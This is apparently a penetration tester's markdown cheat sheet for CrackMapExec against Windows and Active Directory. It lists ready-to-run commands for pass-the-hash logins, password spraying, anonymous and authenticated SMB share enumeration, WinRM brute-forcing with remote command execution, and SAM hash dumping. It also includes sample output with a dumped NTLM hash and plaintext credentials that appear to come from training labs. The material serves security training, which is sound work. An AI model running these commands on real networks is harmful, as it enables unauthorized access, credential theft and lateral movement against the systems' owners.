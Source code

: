 # crackmapexec
- <https://github.com/byt3bl33d3r/CrackMapExec>
- <https://ptestmethod.readthedocs.io/en/latest/cme.html>
- <https://cheatsheet.haax.fr/windows-systems/exploitation/exploitation_tricks/>



This package is a swiss army knife for pentesting Windows/Active Directory environments.



CrackMapExec version 5.4.0 may throw the error The NETBIOS connection with the remote host is timed out for DCSRV1, or doesn't provide any output at all. Version 5.4.1 contains a fix to address this issue.


- perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system
- enumerating logged on users
- spidering SMB shares
- execute psexec style attacks
- auto-injecting Mimikatz/Shellcode/DLL's into memory using Powershell
- dump the NTDS.dit
- and more











## PtH
```
crackmapexec smb 10.129.41.19 -u rachel -H [NTLM hash]

crackmapexec smb [IP] -u Administrator -H [DUMPED HASH] -x "ipconfig"
```









## Credential Spraying
```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

crackmapexec smb [IP]/24 -u "leon" "Administrator" -p "HomeTaping199\!"

```

If the user with the identified credentials has administrative privileges crackmapexec adds `Pwn3d!` to the output. In an assessment, this is 
an excellent feature to determine the level of access we have without performing additional enumeration.









## SMB

```
crackmapexec [IP]
crackmapexec [IP] --shares -u '' -p ''
crackmapexec [IP] --shares -u 'foobar' -p '' # may fall back to anonymous log in


crackmapexec winrm [IP] -u [USERS FILE] -p [PASSWORD FILE]
crackmapexec winrm [IP] -u administrator -p [PASSWORD FILE]

crackmapexec winrm [IP] -u administrator -p tinkerbell -x "whoami"
crackmapexec winrm [IP] -u administrator -p tinkerbell -x "systeminfo"



# Confirm MachineAccountQuota
crackmapexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M MAQ

```



```
crackmapexec smb [TARGET] -u maya -p "m4y4ngs4ri" --sam
...
MB         10.10.11.14     445    MAILING          localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::
...
```




list the SMB shares and their permissions
```
crackmapexec smb 192.168.50.242 -u john -p "dqsTwTpZPn#nL" --shares

proxychains -q crackmapexec smb 172.16.6.240-241 172.16.6.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares
```




